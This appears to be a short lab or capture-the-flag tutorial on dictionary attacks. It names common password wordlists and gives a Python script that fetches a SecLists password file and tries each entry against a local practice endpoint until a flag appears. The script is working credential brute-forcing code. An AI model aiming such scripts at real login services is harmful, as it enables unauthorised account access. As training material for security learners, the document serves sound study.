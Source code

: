  Instead of a wordlist of every possible combination, a dictionary attack employs a pre-compiled list of words and phrases, which dramateically reduces the search space.

 Wordlists:
 - rockyou.txt
 - top-usernames-shortlist.txt
 - xato-net-10-million-usernames.txt
 - 2023-200_most_used_passwords.txt
 - Default-Credentials/default-passwords.txt

## Dictionary Solver
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break

